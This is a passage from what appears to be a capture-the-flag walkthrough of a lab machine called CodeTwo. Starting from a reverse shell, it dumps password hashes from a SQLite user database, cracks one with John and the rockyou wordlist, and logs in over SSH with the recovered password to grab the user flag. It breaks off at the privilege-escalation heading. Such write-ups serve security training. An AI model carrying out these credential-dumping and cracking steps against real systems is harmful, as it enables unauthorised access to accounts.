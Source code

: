 Result: **Reverse shell as**

```plaintext
app@codetwo:~/app$
```

## Extracting User Credentials

From the shell, we find a SQLite DB at instance folder:

```plaintext
cd /app/instance
ls
sqlite3 user.db "SELECT * FROM users;"
```

Hashes found:

```plaintext
649c9d65a206a75f5abe509fe128bce5
a97588c0e2fa3a024876339e27aeb42e
```

Save them to `hashes.txt` and crack with John:

```plaintext
echo "649c9d65a206a75f5abe509fe128bce5" > hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

**Result:**

```plaintext
marco : sweetangelbabylove
```

## 4\. User Shell

Login via SSH:

```plaintext
ssh marco@10.10.11.82
# password: sweetangelbabylove
```

Grab the user flag:

```plaintext
cat /home/marco/user.txt
```

**User Flag:** ✅

## 5\. Privilege Escalation

## Enumeration

Check sudo rights:
